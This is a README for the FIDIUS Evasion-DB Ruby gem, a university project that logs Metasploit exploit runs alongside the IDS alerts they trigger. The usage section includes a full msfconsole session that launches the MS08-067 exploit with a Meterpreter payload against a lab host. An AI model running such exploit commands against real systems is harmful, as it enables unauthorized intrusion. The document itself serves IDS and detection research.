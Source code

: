 # FIDIUS fidius-evasiondb

The FIDIUS Evasion-DB Gem provides a database which contains knowledge about metasploit exploits and their corresponding Alert-Events produced by Intrusion Detection Systems (IDS). It includes a Metasploit plugin which supports the recording of thrown alerts during the execution of an exploit.

Description

This gem is developed in the context of the students project "FIDIUS" at the
University of Bremen, for more information about FIDIUS visit
[fidius.me](http://fidius.me/en).

## Installation

Simply install this package with Rubygems:

    $ gem install fidius-evasiondb

Then switch to the root directory of your Metasploit installation and run

    $ fidius-evasiondb -c

Follow the instructions. 

This Gem currently uses 2 databases:

 * ids_db: A PreludeManager-Database for fetching IDMEF-Events.
 * evasion_db: Knowledge-Database for information about Exploits and their IDMEF-Events.

Please note: The Evasion-DB Gem has only been tested with Linux systems
and might not work with Windows.

## Configuration

The database configuration can be found in

    path/to/your/metasploit/root/data/database.yml 

It has been tested with Postgres and MySQL databases but should work for others, too.

## Usage

There are two possibilities to use this Gem, either inside the Metasploit console (with a plugin) or from external scripts by requiring the Gem. 
The first method (use in msfconsole) is intended to generate knowledge about exploits. You can execute any module withhin metasploit 
and log corresponding IDMEF-Events. 

Please note: Currently it is only possible to fetch IDMEF-Events from an existing and configured PreludeManager-Database. At the beginning
of a module execution timestamp and number of total events in prelude are measured. After the module is finished newly generated
events are identified via timestamp and the attackers source ip.

### In msfconsole

* example for monitoring an exploit. After loading the plugin all modules which are executed by metasploit will be monitored.
All payload which is send to the target will be stored in the Knowledge-Database. After executing of the module finished generated
IDMEF-Events will be fetched from the Prelude-Database and stored to the Knowledge-Database, too.

        $ msf > load evasiondb
        $ [*] EvasionDB plugin loaded.
        $ [*] Successfully loaded plugin: FIDIUS-EvasionDB
        $ msf > use exploit/windows/smb/ms08_067_netapi
        $ msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
        $ PAYLOAD => windows/meterpreter/bind_tcp
        $ msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1
        $ RHOST => 10.20.20.1
        $ msf exploit(ms08_067_netapi) > exploit
        $ [*] Started bind handler
        $ [*] Automatically detecting the target...
        $ [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
        $ [*] Selected Target: Windows XP SP2 German (NX)
        $ [*] Attempting to trigger the vulnerability...
        $ [*] Sending stage (749056 bytes) to 10.20.20.1
        $ [*] Meterpreter session 1 opened (10.0.0.100:52764 -> 10.20.20.1:4444) at 2011-03-28 16:42:53 +0200
        $ meterpreter > exit
        $ [*] Meterpreter session 1 closed.  Reason: User exit
        $ msf exploit(ms08_067_netapi) > show_events
        $ ------------------------------------------------------------
        $ exploit/windows/smb/ms08_067_netapi with 47 options
        $ ------------------------------------------------------------
        $ 11 idmef-events fetched
        $ ------------------------------------------------------------
        $ (1)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (2)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (3)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (4)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (5)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (6)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (7)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
        $ (8)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
        $ (9)ET EXPLOIT x86 JmpCallAdditive Encoder with 759 bytes payload
        $ (10)ET EXPLOIT x86 JmpCallAdditive Encoder with 467 bytes payload
        $ (11)NETBIOS SMB-DS IPC$ share access with 72 bytes payload
        $ msf exploit(ms08_067_netapi) > 

### From external script

* require gem, connect_db
* Only queries possible

### Queries
Sample how the knowledge in EvasionDB can be queried:

        ruby-1.9.1-p378 > require 'fidius-evasiondb'
         => true 
        ruby-1.9.1-p378 > FIDIUS::EvasionDB.config "data/database.yml"
        ruby-1.9.1-p378 > events = FIDIUS::EvasionDB::Knowledge.find_events_for_exploit "exploit/windows/smb/ms08_067_netapi"
        ruby-1.9.1-p378 > events.size
         => 11 
        ruby-1.9.1-p378 > events.first.severity
         => "medium" 
        ruby-1.9.1-p378 > events.first.text
         => "COMMUNITY SIP TCP/IP message flooding directed to SIP proxy" 

### Find an Exploit
        ruby-1.9.1-p378 > m = FIDIUS::EvasionDB::Knowledge::AttackModule.first
         => #<FIDIUS::EvasionDB::Knowledge::AttackModule id: 1, name: "exploit/windows/smb/ms08_067_netapi", options_hash: "4d70ba1e95523e6d602e316a2553decf", finished: true, created_at: "2011-04-02 13:43:44", updated_at: "2011-04-02 13:45:05">

### Find IdmefEvents
        ruby-1.9.1-p378 > event = m.idmef_events.first
         => #<FIDIUS::EvasionDB::Knowledge::IdmefEvent id: 1, attack_module_id: 1, attack_payload_id: nil, payload: "wrong lookup type\x00\x00\x00unsupported algorithm\x00\x00\x00unknown...", detect_time: "2011-04-02 13:44:30", dest_ip: "10.20.20.1", src_ip: "10.0.0.100", dest_port: 4444, src_port: 45944, text: "COMMUNITY SIP TCP/IP message flooding directed to S...", severity: "medium", analyzer_model: "prelude-manager", ident: 1076676, created_at: "2011-04-02 13:45:03", updated_at: "2011-04-02 13:45:05"> 

### Find Packets
        ruby-1.9.1-p378 > m.packets.first
         => #<FIDIUS::EvasionDB::Knowledge::Packet id: 1, attack_module_id: 1, attack_payload_id: nil, src_addr: "0.0.0.0", dest_addr: "10.20.20.1", src_port: "0", dest_port: "445", payload: "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02...", created_at: "2011-04-02 13:43:47", updated_at: "2011-04-02 13:43:47"> 

### Find Payload of Packet
        ruby-1.9.1-p378 > m.packets.first.payload
         => "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02LM1.2X002\x00\x02NT LANMAN 1.0\x00\x02NT LM 0.12\x00" 


### Find Options of Exploit
        ruby-1.9.1-p378 > m.attack_options.first.option_key
         => "EXITFUNC" 
        ruby-1.9.1-p378 > m.attack_options.first.option_value
         => "thread" 

## Authors and Contact

fidius-evasiondb was written by

* FIDIUS Intrusion Detection with Intelligent User Support
  <grp-fidius@tzi.de>, <http://fidius.me>
* in particular:
 * Bernhard Katzmarski <bkatzm@tzi.de>
 * Jens Färber <jfaerber@tzi.de>

If you have any questions, remarks, suggestion, improvements,
etc. feel free to drop a line at the addresses given above.
You might also join `#fidius` on Freenode or use the contact
form on our [website](http://fidius.me/en/contact).


## License

Simplified BSD License and GNU GPLv2. See also the file LICENSE.
